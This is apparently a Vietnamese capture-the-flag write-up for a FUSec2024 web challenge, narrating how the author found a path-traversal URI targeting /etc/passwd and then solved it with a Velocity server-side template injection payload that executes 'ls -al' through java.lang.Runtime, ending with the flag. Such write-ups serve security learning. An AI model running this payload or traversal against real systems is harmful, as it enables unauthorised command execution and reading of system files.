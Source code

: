 # lsH0wSp33d

Bởi vì team mình là team có 3 người chơi forensics và 1 người chơi crypto. Vậy nên, bọn mình chỉ có thể solve được 1 bài web duy nhất

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/cd6bebfd-8409-48ef-bc99-a17d3e5520b9)

Ở đây, ta thử scan web xem có cái gì không. Sau khi scan ra, mình thấy 1 uri đáng ngờ là ``` /\..\..\..\..\..\..\..\..\..\etc\passwd ```

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/523df1d6-6667-4f46-9e74-1f619aded8a4)

Sau khi paste vào url thì mình thấy giao diện web không còn gì cả, không còn màu mè hoa lá

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/289d0c5b-5abb-461b-bebe-d3e3e86ebe1e)

Sau đó, mình thử bấm enter để search thì nó xuất hiện một dòng có vẻ như là vuln của web này ? Vì mình không học web mà chỉ là rẽ ngang nên không rõ lắm

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/11dfde2e-afea-4c66-affd-3c9645ad6e09)

Sau khi qua tìm hiểu, em thấy rằng velocity là 1 Java-based Template. Vì thế nên, có thể sẽ có đoạn payload nào đó để inject vào trong cái bài này. Em google thử velocity payload shell script thì ra được đoạn payload là:

``` #set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output ```

``` https://github.com/epinna/tplmap/issues/9 ```

Lúc này, ta thử paste đoạn payload kia vào trong ô search keywords và ra được kết quả

![image](https://github.com/anhshidou/FUSec2024/assets/120787381/eb95dc5e-0ff5-4370-a332-6f5455a559ef)

Flag: FUSec{v3l0c1ty_SSTI_1s_34sy_4s_h3ll}









